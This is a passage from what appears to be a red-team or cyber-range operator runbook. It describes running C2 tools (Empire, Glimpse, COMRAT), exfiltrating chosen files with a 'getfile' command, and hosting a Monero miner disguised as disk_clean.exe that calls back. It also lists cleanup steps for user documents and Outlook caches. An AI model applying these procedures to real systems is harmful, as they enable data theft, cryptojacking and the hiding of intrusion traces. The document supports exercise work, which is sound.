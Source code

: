 3. Wait for response. Manually send email from the target's Outlook if necessary or check Lariat. 

4. Choose the file to exfiltrate according to the File Exfil List below
5. > getfile <filename>
 
6. Wait for file delivery

7. Ctrl+C to kill the C2
 File Exfil List

Additional Notes 
Kali-Shredder has Web server on port 81. /root/scripts/Empire/glimpse/disk_clean.exe is placed on a web server because of the 1MB upload limitations of Empire. This file is the miner that calls-back to Monero.
Clear user Documents in S:\Working\<USER>\Documents\collab* (documents Lariat creates) THIS SHOULD BE RANS RESPONSIBILITY. Clear stale OST in C:\users\<user>\AppData\Local\Microsoft\Outlook\ THIS SHOULD BE RANS RESPONSIBILITY.
Change Outlook Cache to �ALL� in Settings->Change
Check Glimpse C2 every 4-6 hours. If the check in time is not current, close the node.js app. It will auto-launch a new one. Activity should reestablish.
 
Testing Vmail/Gmail 

. 
Additional Notes 
 Test scripts may have typos (baubaresources) <--- Correct spelling
 On the exchange server, within "Mailflow"  "Accepted Domains" -add "gmail.com" domain
Make sure IMAP service is running
Make sure run_COMRAT.sh has mail server IP in script
 
